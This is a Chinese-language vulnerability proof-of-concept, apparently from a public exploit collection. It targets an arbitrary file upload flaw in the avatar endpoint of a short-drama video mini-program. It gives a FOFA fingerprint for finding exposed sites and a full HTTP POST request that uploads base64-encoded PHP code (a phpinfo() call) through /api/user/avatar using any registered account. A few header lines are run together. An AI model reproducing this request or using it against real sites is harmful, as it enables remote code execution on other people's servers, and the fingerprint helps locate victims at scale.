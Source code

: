 # 短剧影视小程序前台base64_image_content任意文件上传漏洞

**注意 这里需要登录，普通用户权限即可 访问 /index/user 可直接注册登录。**

## fofa

```yaml
"/VwmRIfEYDH.php"
```

## poc

```javascript
POST /api/user/avatar HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 73Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=qt0rrvopobbbvibu6f8p9lr42
rHost: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/api/user/avatar
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

base64=data:image/php;base64,YTw/cGhwIHBocGluZm8oKTs/Pg==
```

![image-20240902102758828](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409021027916.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/3WYJzQnjl8hP7oXVZUEQuA